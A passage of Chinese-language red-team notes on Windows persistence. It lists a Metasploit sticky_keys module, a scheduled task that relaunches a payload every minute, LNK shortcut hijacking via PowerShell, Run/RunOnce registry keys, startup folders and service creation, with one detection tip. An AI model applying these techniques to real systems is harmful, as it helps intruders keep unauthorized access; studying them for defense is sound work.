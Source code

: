 ```
msf5 > use post/windows/manage/sticky_keys
msf5 > options
msf5 > set session 5
msf5 > set target UTILMAN # 默认为SETHC 粘滞键
msf5 > run
```

防范 -- 关注注册表 Image File Execution Options 和 SilentProcessExit

### 启动项

schtasks 计划任务

```ts
schtasks /create /sc MINUTE /mo 1 /tr C:\Users\Administrator\Desktop\mx\5555.exe /tn test
```

快捷方式劫持
Windows 快捷方式包含对系统上安装的软件或文件位置(网络或本地)的引用.快捷方式的文件扩展名是 LNK。

```ts
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  -c "invoke item 'D:\Program\openvpn\bin\openvpn-gui.exe'; invoke-item c:\windows\system32\calc.exe"
```

Run 每次启动登录时都会按顺序自动执行。

```ts
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```

RunOnce 仅会被自动执行一次

```ts
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

RunServicesOnce 程序会在系统加载时自动启动执行一次

```ts
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
```

文件夹启动 在每次开机或重启的时候就会运行启动文件夹下的程序

```ts
C:\Users\{UserName}\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

服务启动

```ts
sc create [ServerName] binPath= BinaryPathName
// 重后权限维持·但一般杀软会拦截
```
